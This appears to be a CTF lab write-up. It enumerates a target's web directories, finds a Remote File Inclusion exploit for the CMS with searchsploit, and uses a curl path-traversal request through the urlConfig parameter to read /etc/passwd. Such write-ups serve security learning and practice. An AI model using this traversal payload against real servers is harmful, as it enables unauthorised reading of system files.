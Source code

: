 Visiting that directory online leads to a new page:

![](<../../.gitbook/assets/image (177) (1).png>)

I then ran **feroxbuster** again on this directory leading to the following results:

```bash
[>-------------------] - 1m     20462/1185239 217/s   http://10.10.224.214/45kra24zxs28v3yd/
[>-------------------] - 1m     11588/1185239 146/s   http://10.10.224.214/45kra24zxs28v3yd/administrator
[>-------------------] - 1m     10241/1185239 134/s   http://10.10.224.214/45kra24zxs28v3yd/administrator/alerts
[>-------------------] - 1m     13158/1185239 174/s   http://10.10.224.214/45kra24zxs28v3yd/administrator/media
[>-------------------] - 1m     12527/1185239 165/s   http://10.10.224.214/45kra24zxs28v3yd/administrator/templates
[>-------------------] - 1m     12172/1185239 162/s   http://10.10.224.214/45kra24zxs28v3yd/administrator/js
[>-------------------] - 1m      7290/1185239 97/s    http://10.10.224.214/45kra24zxs28v3yd/administrator/components
[>-------------------] - 1m     13761/1185239 186/s   http://10.10.224.214/45kra24zxs28v3yd/administrator/classes
[>-------------------] - 1m      6704/1185239 91/s    http://10.10.224.214/45kra24zxs28v3yd/administrator/templates/default
```

I then found this site using the link of http://10.10.224.214/45kra24zxs28v3yd/administrator/:

![](<../../.gitbook/assets/image (178).png>)

Using **searchsploit**, I then realized that there was a exploit for this CMS, and it is Remote File Inclusion!

![](<../../.gitbook/assets/image (179).png>)

I then copied that file locally running:

```bash
cp /usr/share/exploitdb/exploits/php/webapps/25971.txt .
```

I noticed a person on [https://www.hackingarticles.in/hack-the-w1r3s-inc-vm-ctf-challenge/](https://www.hackingarticles.in/hack-the-w1r3s-inc-vm-ctf-challenge/) using the same vulnerability but using curl. I modified their command to work with my situation:

```c
curl -s --data-urlencode urlConfig=../../../../../../../../../etc/passwd http://10.10.224.214/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php
```

This did give me a result:

```c
<script>
        function CloseDefaultAlert(){
                SetAlert(false, "", "#alert");
                setTimeout(function () {SetBlockade(false)}, 200);
        }
        function ShowAlert(){
                _width = '';
                _height = '';
                jQuery('#alert').animate({width:parseInt(_width), height:parseInt(_height), 'margin-left':-(parseInt(_width)*0.5)+20, 'margin-top':-(parseInt(_height)*0.5)+20 }, 300, "easeInOutCirc", CompleteAnimation);
                        function CompleteAnimation(){
                                jQuery("#btnClose_alert").css('visibility', "visible");
                                jQuery("#description_alert").css('visibility', "visible");
                                jQuery("#content_alert").css('visibility', "visible");
                        }
```